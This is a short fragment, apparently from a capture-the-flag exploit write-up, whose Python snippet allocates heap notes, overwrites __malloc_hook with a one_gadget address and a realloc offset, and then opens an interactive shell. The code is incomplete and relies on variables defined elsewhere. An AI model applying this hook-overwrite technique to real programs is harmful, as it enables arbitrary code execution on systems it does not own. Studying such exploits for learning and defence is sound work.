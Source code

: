 ```python
create_note(0x68)   # chunk_info #5
create_note(0x68)   # chunk_info #8, to __malloc_hook
write_note(8, 0x13 + 8, b'\x00' * 0xB + p64(base + one_gadgets[3]) + p64(realloc + 4))
create_note(0x38)

io.interactive()
```
